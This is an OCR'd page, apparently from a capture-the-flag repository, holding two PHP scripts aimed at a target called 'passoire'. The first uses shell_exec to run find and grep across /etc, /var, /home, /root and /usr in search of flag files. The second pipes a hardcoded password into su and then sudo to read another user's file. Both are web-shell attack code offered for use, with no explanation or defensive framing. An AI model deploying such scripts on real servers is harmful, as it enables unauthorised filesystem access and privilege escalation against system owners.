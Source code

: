 **`get_known_flags.php`**

```
<?php
echo "<pre>";

// Define directories to search (avoiding problematic ones)
$search_dirs = array(
    '/passoire',
    '/etc',
    '/var',
    '/home',
    '/root',
    '/usr'
);

// Format directories for command
$dir_string = implode(' ', $search_dirs);

echo "Searching in directories: " . $dir_string . "\n\n";

// Search for files named flag_*
echo "Searching for files named flag_*:\n";
$find_command = "find $dir_string -name 'flag_*' 2>/dev/null";
$files = shell_exec($find_command);
echo $files . "\n";

// Search through files for flag pattern
echo "\nSearching file contents for flag pattern:\n";
$grep_command = "grep -r 'flag_[0-9]* is [a-f0-9]*' $dir_string 2>/dev/null";
$contents = shell_exec($grep_command);
echo $contents;

echo "</pre>";
?>
```



**`get_flag_14.php`** (be sure to enter the correct password for admin)

```
<?php
echo "<pre>";

$command = "echo 'marshall' | su admin -c 'cat /home/admin/flag_14'";
$output = shell_exec($command);
echo "Output:\n$output\n";

// If that doesn't work, try with sudo
$command2 = "echo '[PASSWORD_FOR_ADMIN]' | sudo -S -u admin cat /home/admin/flag_14";
$output2 = shell_exec($command2);
echo "Sudo output:\n$output2\n";

echo "</pre>";
?>
```
